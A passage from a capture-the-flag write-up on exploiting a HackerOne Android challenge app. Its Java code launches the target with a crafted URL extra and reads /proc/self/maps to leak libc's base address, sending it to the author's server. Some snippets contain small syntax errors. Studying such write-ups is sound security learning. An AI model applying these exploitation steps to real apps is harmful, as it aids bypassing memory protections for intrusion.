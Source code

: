 ## Phase II - Exploitation

Point **1** is pretty simple. All we need to know is the package name (*com.hackerone.mobile.challenge5*) of the app we're going to launch.

```java
    private void runChallengeApp() {   
        startActivity(
            getPackageManager()  
                .getLaunchIntentForPackage("com.hackerone.mobile.challenge5")
                .putExtra("url", "https://mydomain.tld/");
        );  
    }
```

Since I'm a CE (Computer Engineer) student and this year I attended an OS course I know a bit more about Linux. Probably the way we should follow to get the **libc** base address involves digging into leaked data but I know a better method (as we'll install the app and not trig the exploit remotely). Every info you need about loaded libraries can be found inside **/proc/self/maps**.

We can join points **1** and **3**. The result is a more controllable exploit and a higher percentage of success.

```java
  private long getLibraryBaseAddress(String lib){  
      Scanner scanner = null;

      try {  
          scanner = new Scanner(  
              new File("/proc/self/maps")  
          );  

          while (scanner.hasNextLine()) {  
              String line = scanner.nextLine()  
                      .trim();  

              // Look for library and 'x'ecution flag  
              if (line.contains(lib) && line.contains("xp")) {  
                  String[] components = line.split("-");  
                  return Long.parseLong(components[0], 16);  
              }  
          }  
      } catch (FileNotFoundException e) {  
          e.printStackTrace();  
      } finally {  
          if (scanner != null) {  
              scanner.close();  
          }  
      }  

      return 0;
  }

  private void runChallengeApp() {   
      startActivity(
          getPackageManager()  
              .getLaunchIntentForPackage("com.hackerone.mobile.challenge5")
              .putExtra("url", String.format(
                "https://mydomain.tld/?%d",
                getLibraryBaseAddress("/system/lib64/libc.so")
              );
      );  
  }
```
